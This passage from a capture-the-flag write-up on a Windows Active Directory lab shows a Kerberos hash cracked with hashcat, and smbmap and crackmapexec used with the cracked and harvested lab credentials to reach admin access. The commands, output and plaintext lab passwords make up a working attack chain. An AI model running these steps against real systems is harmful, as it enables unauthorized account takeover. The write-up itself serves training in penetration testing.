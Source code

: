 I then realized that I would have to crack the hash in the output. My assumption is that this is a kerberos hash. Looking on [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes), I found out that this is Kerberos 5, and the mode for this is **18200**. I then tried to crack this using hashcat:

```c
hashcat -m 18200 hash ../resources/rockyou.txt --force
```

The hash was then cracked:

![](<../../.gitbook/assets/image (158).png>)

I then plugged that information into **smbmap**:

```c
┌──(kali㉿kali)-[~/Desktop/hacking/working]
└─$ smbmap -H 10.10.60.75 -u t-skid -p 'tj072889*'
[+] IP: 10.10.60.75:445 Name: 10.10.60.75                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

I noticed that there were more READ ONLY shares available from this user. I then wanted to see what those files were:

![](<../../.gitbook/assets/image (159).png>)

Viewing the .vbs file it showed me a username and password:

![](<../../.gitbook/assets/image (160).png>)

I then did smbmap using this username and password:

![](<../../.gitbook/assets/image (161).png>)

I first used **smbclient** to get into the C$ drive. After not finding anything for a while, I looked at this [write-up](https://muzec0318.github.io/posts/roasted.html). I then realized that I had to use **Impacket** again in order to get the other hashes for the other users. I first ran **crackmapexec**:

```c
┌──(kali㉿kali)-[~/Desktop/hacking/working]
└─$ crackmapexec smb 10.10.60.75 -u a-whitehat -p bNdKVkjv3RR9ht                 
SMB         10.10.60.75     445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.60.75     445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```
